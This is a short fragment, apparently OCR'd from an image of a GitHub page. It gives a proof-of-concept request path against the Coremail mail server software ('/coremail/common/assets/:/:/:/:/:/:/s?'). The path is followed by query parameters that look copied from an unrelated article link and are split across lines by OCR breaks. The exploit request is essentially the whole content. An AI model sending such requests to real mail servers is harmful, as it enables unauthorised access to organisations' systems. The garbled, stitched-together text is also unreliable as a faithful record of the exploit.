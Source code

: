 POC：

/coremail/common/assets/:/:/:/:/:/:/s?

biz=Mzl3MTk4NTcyNw==&mid=2247485877&idx=1&sn=7e5f77db320ccf9013c0b7aa7262

6688chksm=eb3834e5dc4fbdf3a9529734de7e6958e1b7efabecd1c1b340c53c80299ff5c688b

f6adaed61&scene=2